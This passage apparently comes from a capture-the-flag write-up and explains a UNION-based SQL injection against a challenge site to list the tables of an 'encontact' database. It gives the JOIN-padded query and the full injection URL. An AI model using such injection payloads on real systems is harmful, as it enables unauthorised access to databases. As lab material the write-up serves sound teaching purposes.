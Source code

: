 The MySQL query that would show use all the tables in the encontact database is<br>
`SELECT table_name FROM information_schema.tables WHERE table_schema='encontact'`.  

But as mentioned above, our injection needs to return 7 values and this query only returns one.  To get around this we can use the `JOIN` statement to combine multiple `SELECT` statements into one result. 

`SELECT * FROM (select NULL)c1 join (SELECT table_name FROM information_schema.tables WHERE table_schema='encontact')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7`

This query would return 7 columns, the 2nd of which will be the names of the tables in the encontact database and the others all NULL.  This query can be executed through SQL injection with the following URL
```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (SELECT table_name FROM information_schema.tables WHERE table_schema='encontact')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,2
```
??? info "Screenshot"